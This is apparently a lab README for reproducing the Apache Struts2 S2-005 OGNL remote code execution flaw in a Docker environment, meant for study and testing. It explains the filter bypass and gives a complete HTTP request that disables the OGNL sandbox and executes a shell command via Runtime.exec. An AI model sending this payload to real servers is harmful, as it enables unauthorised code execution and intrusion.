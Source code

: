 # S2-005 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.1.8.1

Details: http://struts.apache.org/docs/s2-005.html

## Reference

Refer 《White hat speaking Web Security》 by Wu Hanqing (Author)

> s2-005 is a vulnerability which originating from S2-003(version: < 2.0.12), This behavior has been filtered in S2-003, but it turned out that the resulting fix based on whitelisting acceptable parameter names closed the vulnerability only partially.

XWork will parse the keys and values of the GET parameter into Java statements using OGNL expressions, such as:

```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//It will be converted to
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

Process follows:

- In S2-003 Use `\u0023` to bypass struts2's filter `#`
- After S2-003 struts2 added security mode (sandbox)
- In S2-005 Use the OGNL expression to close the security mode and bypass again

## Setup

Run the following commands to start the environment

```
docker-compose build
docker-compose up -d
```

## POC && EXP

Remote code execution POC (don't have display echo, use `@` instead space):

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36

```

Some others POC will return 400 in tomcat8.Because the characters `\`, `"` can't be placed directly in the path, we need urlencode it before send.

This POC don't have display, used OGNL's Expression Evaluation:

![](1.jpeg)

`(aaa)(bbb)`, `aaa` is used as the OGNL expression string, and `bbb` is the root object of the expression. Therefore, if we needs to execute code like `aaa`, it needs to be wrapped in quotation marks, and the `bbb` position can directly place the Java statement. `(aaa)(bbb)=true` is actually `aaa=true`.

However, how to understand exactly, it needs further research and to be optimized. Hope someone can write a POC that can display echo.
